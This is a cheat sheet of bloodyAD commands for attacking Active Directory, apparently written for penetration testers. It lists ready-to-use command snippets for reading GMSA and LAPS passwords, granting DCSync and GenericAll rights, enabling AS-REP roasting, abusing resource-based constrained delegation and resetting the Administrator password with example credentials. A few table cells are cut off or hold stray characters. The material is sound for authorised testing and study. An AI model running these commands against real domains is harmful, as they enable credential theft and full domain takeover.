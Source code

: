 | Purpose                           | Command snippet                                                      |
| --------------------------------- | -------------------------------------------------------------------- |
| Dump a single object’s attributes | `bloodyAD ... get object '<DistinguishedName>' --attr attr1,attr2`   |
| List all users                    | `bloodyAD ... get children 'DC=corp,DC=local' --type user`           |
| Get group members                 | `bloodyAD ... get object 'Domain Admins' --attr member`              |
| Dump DNS records                  | `bloodyAD ... get dnsDump`                                           |
| Read GMSA password                | `bloodyAD ... get object 'gmsaAcct$' --attr msDS-ManagedPassword` [] |
| Read LAPS (ms-Mcs-AdmPwd)         | `bloodyAD ... get object 'HOSTNAME$' --attr ms-Mcs-AdmPwd`           |

---

## ⚔️ Attack primitives

| Attack                               | Command snippet                                                             |
| ------------------------------------ | --------------------------------------------------------------------------- |
| Enable **ASREP** roast on a user     | `bloodyAD ... add uac targetUser DONT_REQ_PREAUTH`                          |
| Remove disable flag from user        | `bloodyAD ... remove uac targetUser ACCOUNTDISABLE`                         |
| Trigger **DCsync**                   | `bloodyAD ... add dcsync targetUser`                                        |
| Give **GenericAll** on object        | `bloodyAD ... add genericAll victimObject attackerUser`                     |
| Configure **RBCD** (S4U2proxy abuse) | `bloodyAD ... add rbcd TARGET_HOST$ attackerUser`                           |
| Kerberoast SPNs                      | _(collect with impacket’s `GetUserSPNs.py` then roast)_                     |
| ASREP roast                          | _(use Rubeus or Impacket’s `GetNPUsers.py` after setting DONT_REQ_PREAUTH)_ |

---

## 🛠️ Modification (`add` / `remove` / `set`)

| Change                       | Command snippet                                                                                                                                                       |
| ---------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Add a computer to the domain | `bloodyAD ... add computer NewPC$                                                                                                                                     |
| Add a DNS record             | `bloodyAD ... add dnsRecord hostName 192.168.1.50`                                                                                                                    |
| Remove a DNS record          | `bloodyAD ... remove dnsRecord hostName 192.168.1.50`                                                                                                                 |
| Set an attribute value       | `bloodyAD ... set object Target$ attributeName -v newValue`                                                                                                           |
| Change a user’s password     | `bloodyAD ... set password victimUser NewP@ssw0rd!`<br>`bloodyAD --host dc.test.loc -d test.loc -u j.phillips -p 'Welcome1' -k set password Administrator 'Welcome1'` |
| Add user to a group          | `bloodyAD ... add groupMember 'Group Name' victimUser`                                                                                                                |
